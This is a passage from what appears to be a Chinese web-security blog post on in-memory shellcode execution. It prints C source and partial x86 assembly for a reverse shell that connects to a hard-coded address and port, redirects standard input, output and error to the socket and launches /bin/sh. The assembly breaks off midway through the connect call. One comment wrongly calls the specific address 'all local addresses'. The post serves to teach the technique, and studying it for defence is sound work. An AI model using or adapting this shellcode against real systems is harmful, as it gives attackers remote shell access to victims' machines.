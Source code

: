![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01059c412e75c4ff00.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t0154717c97e799d852.png)

### 内存shellcode执行

通过shellcode直接调用glibc或者syscall完成反弹shell。 

1）C代码

```c
#include<sys/socket.h>   //构造socket所需的库
#include<netinet/in.h>  //定义sockaddr结构
int main()
{
  char *shell[2];       //用于execv调用
  int soc,remote;    //文件描述符句柄
  struct sockaddr_in serv_addr; //保存IP/端口值的结构
 
  serv_addr.sin_addr.s_addr=0x6400A8C0;  //将socket的地址设置为所有本地地址
  serv_addr.sin_port=0xBBBB;  //设置socket的端口48059
  serv_addr.sin_family=2;   //设置协议族：IP
  soc=socket(2,1,0);
  remote=connect(soc,(struct sockaddr *)&serv_addr,0x10);
 
  dup2(soc,0);   //将stdin连接client
  dup2(soc,1);   //将stdout连接client
  dup2(soc,2);   //将strderr连接到client
  shell[0]="/bin/sh";   //execve的第一个参数
  shell[1]=0;           //数组的第二个元素为NULL,表示数组结束
  execv(shell[0],shell,NULL);   //建立一个shell
}
```

2）汇编语言代码

```c
section .text
global _start
_start:
xor eax,eax ;清空eax
xor ebx,ebx ;清空ebx
xor edx,edx  ;清空edx
 
;soc=socket(2,1,0)
push eax  ;socket的第三个参数：0
push byte 0x1 ;socket的第二个参数：1
push byte 0x2 ;socket的第一个参数：2
mov ecx,esp ;将数组的地址设置为socketcall的第二个参数
inc bl  ;将socketcall的第一个参数设置为1
mov al,102  ;调用socketcall,分支调用号为1：SYS_SOCKET
int 0x80  ;进入核心态，执行系统调用
mov esi,eax ;将返回值(eax)存储到esi中（即soc句柄）
 
;remote=connect(soc,(struct sockaddr *)&serv_addr,0x10)
push edx; ;仍然为0，用来作为接下来压栈的数据的结束符
push long 0x6400A8C0  ;本节代码中新增，将地址反序得到的十六进制压栈
push word 0xBBBB  ;将端口压栈，十进制为48059
xor ecx,ecx ;清空ecx，以便保存结构的sa_family字段
mov cl,2  ;将ecx的地位字节，设置为2
push word cx  ;建立结构，包括端口和sin.family,共四个字节
mov ecx,esp ;将结构的地址（在栈上）复制到ecx
push byte 0x10  ;connect参数的开始，将16压栈
push ecx  ;在栈上保存结构的地址
push esi  ;将服务器文件描述符esi保存到栈
```